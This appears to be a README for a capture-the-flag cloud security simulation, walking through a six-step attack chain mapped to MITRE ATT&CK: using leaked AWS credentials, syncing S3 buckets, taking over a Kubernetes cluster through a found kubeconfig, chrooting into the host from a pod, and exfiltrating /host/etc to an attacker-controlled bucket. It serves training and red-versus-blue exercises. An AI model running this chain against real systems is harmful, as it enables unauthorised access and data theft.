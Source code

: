 # Essential Tools to Win Magic CTF

## cloudcreds2exfil – Cloud Security Simulation

**Disclaimer:**  
This repository is for **educational use only** in authorized environments such as CTFs, cloud labs, or security training ranges. Do not use any part of this project on real systems without permission.

---

## Overview

The match was meant to be routine, until someone on the team leaked the game plan. An unexpected player slipped in, disguised and unmarked. What followed was a silent play, moving past the midfield, breaching the last line, and walking the ball into the net. By the time the Avengers noticed, the scoreboard had already changed.

---

## Attack Chain Simulation

---

## Commands & Mapping

### Step 1: Configure Leaked Cloud Credentials

Use the credentials to authenticate via AWS CLI.

**MITRE ATT&CK:**  
T1528 – Steal Application Access Token  
T1552.001 – Unprotected Credentials in Files

```bash
aws configure
aws sts get-caller-identity
```

---

### Step 2: Discover and Access Cloud Storage

List available buckets and explore their contents. Look for sensitive data like configuration files.

**MITRE ATT&CK:**  
T1530 – Data from Cloud Storage Object  
T1083 – File and Directory Discovery

```bash
aws s3 ls
aws s3 ls s3://<bucket-name>
aws s3 sync s3://<bucket-name> ./downloaded-data
```

---

### Step 3: Gain Kubernetes Cluster Access

You’ve found a `kubeconfig` file in the bucket. Use it to authenticate with the Kubernetes cluster.

**MITRE ATT&CK:**  
T1592.002 – Gather Cloud Infra Config: Container Orchestration  
T1609 – Kubernetes API Access

```bash
export KUBECONFIG=downloaded-data/kubeconfig
kubectl get nodes
kubectl get pods -A
```

---

### Step 4: Deploy a Container for Reconnaissance

Deploy a pod with a basic shell container to explore the cluster. This simulates lateral movement.

**MITRE ATT&CK:**  
T1610 – Deploy Container  
T1611 – Escape to Host

```bash
kubectl apply -f <<name>.yaml
kubectl get pods
kubectl exec -it <name> -- /bin/bash
```

---

### Step 5: Inspect Host from the Pod

If the pod has access to host volumes (e.g., `/host`), explore the underlying node to simulate privilege escalation.

**MITRE ATT&CK:**  
T1057 – Process Discovery  
T1082 – System Information Discovery

```bash
ls /host
chroot /host
hostname
```

---

### Step 6: Simulate Exfiltration of Data

If credentials are available in the host or pod, use them to upload data to an attacker-controlled bucket.

**MITRE ATT&CK:**  
T1537 – Transfer Data to Cloud Account  
T1005 – Data from Local System  
T1041 – Exfiltration Over C2 Channel

```bash
aws s3 sync /host/etc s3://<your-exfil-bucket>/etc-backup
```

---

## MITRE ATT&CK Summary

| Stage | Techniques |
|-------|------------|
| Initial Access | T1528, T1552.001 |
| Storage Discovery | T1530, T1083 |
| Cluster Access | T1592.002, T1609 |
| Container Deployment | T1610, T1611 |
| Host Discovery | T1057, T1082 |
| Data Exfiltration | T1537, T1005, T1041 |

---

## Usage Guidelines

- Use only in test environments (e.g., personal AWS account, private CTFs, cyber ranges).
- Never use these techniques in production systems or without explicit permission.
- Designed for red vs. blue team simulations, training, and awareness.

---

## License

MIT License – Use allowed for educational and research purposes only.

---

## Contact

Open an issue or contact the maintainers for questions or suggestions.
